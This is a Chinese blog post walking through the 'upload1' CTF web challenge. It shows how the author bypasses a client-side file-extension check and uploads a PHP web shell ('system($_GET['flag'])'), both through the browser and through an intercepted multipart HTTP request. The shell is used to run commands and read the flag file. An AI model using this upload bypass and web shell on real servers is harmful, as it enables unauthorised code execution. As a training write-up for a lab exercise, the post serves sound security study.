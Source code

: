 ```yaml
---
layout: post
title: Web进阶题-upload1
excerpt: "攻防世界进阶Web题目-upload1"
date:   2020-10-24 14:16:00
categories: [CTF]
comments: true
---
```


## 我的解题过程

1. 访问目标网页，网页主要源码如下

   * 页面

     ```html
     <form enctype="multipart/form-data" id="aa" name="aaa" method="post" action="index.php"> 
         <input id="upfile" name="upfile" type="file" onchange="check();"> 
         <input type="submit" id="submit" value="上传"> 
     </form>
     ```

   * JavaScript

     ```javascript
     Array.prototype.contains = function (obj) {  
         var i = this.length;  
         while (i--) {  
             if (this[i] === obj) {  
                 return true;  
             }  
         }  
         return false;  
     }  
     
     function check(){
         upfile = document.getElementById("upfile");
         submit = document.getElementById("submit");
         name = upfile.value;
         ext = name.replace(/^.+\./,'');
     
         if(['jpg','png'].contains(ext)){
             submit.disabled = false;
         }else{
             submit.disabled = true;
     
             alert('请选择一张图片文件上传!');
         }
     }
     ```

   * ext是由将"匹配文件名从开头到第一个'\.'之间所有的字符删除"之后剩下的字符串"

   * 只有ext完全等于jpg或者png才允许上传

2. 所以只能上传jpg和png格式的文件，不能上传".jpg.php"

3. 尝试文件上传

   * 构造文件，文件内容为"\<?php phpinfo(); ?\>"，文件名为"img.png"
   * 上传，网页返回内容为"upload success : upload/1603528576.img.png"
   * 访问"/upload/1603528576.img.png"，并没有被执行

4. 重新阅读JavaScript代码，发现不允许上传只是通过input标签的disable属性，只需选择php文件，在提示不允许上传之后，将HTML代码中的disable删掉即可。

5. 重新构造payload

   * 构造文件，文件内容为"\<?php system($_GET['flag']); ?\>"，文件名为"233.php"
   * 选择文件，提示请选择一张图片，将HTML代码中的disable删除，上传
   * 访问目标文件，顺利执行

6. 使用system遍历目录，发现与index.php同目录有一个flag.php

7. 此时通过浏览器直接访问flag.php，发现返回空白网页，看来这个文件里某个变量应该是flag，而且没有输出的网页上

8. 继续使用system执行cat flag.php，网页页面为空白，这是因为浏览器不渲染标签内的PHP代码而是把它注释掉，所以在浏览器开发者工具的Elements窗口或者Network的Response窗口中会有对应的PHP代码

   ```php
   <?php
   $flag="cyberpeace{0526e633f96208d78a05c1f58ff8f2ac}";
   ?>
   ```

9. 发现flag，cyberpeace{0526e633f96208d78a05c1f58ff8f2ac}

10. 提交，答案正确


## 其他人的解法

1. 构造我之前第三步构造的文件，顺利发起请求，用Burp Suite进行截包

   ```http
   POST /index.php HTTP/1.1
   Host: xxx.yyy.zzz.233:666
   User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:81.0) Gecko/20100101 Firefox/81.0
   Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
   Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
   Referer: http://xxx.yyy.zzz.233:666/
   Content-Type: multipart/form-data; boundary=---------------------------2153339585284191841034996231
   Content-Length: 250
   Origin: http://xxx.yyy.zzz.233:666
   Connection: close
   Upgrade-Insecure-Requests: 1
   
   -----------------------------2153339585284191841034996231
   Content-Disposition: form-data; name="upfile"; filename="ctf.png"
   Content-Type: image/png
   
   <?php
   system($_GET['flag']);
    ?>
   -----------------------------2153339585284191841034996231--
   ```

2. 由于本题中服务器端并没有对上传文件的后缀名强制存储为jpg、png，所以将POST请求体中的filename修改为"ctf.php"，因为服务器端用了一个随机数与这个字段直接拼接成了文件名

3. 网页内容返回内容为"upload success : upload/1603530143.ctf.php ",其他的没有区别了

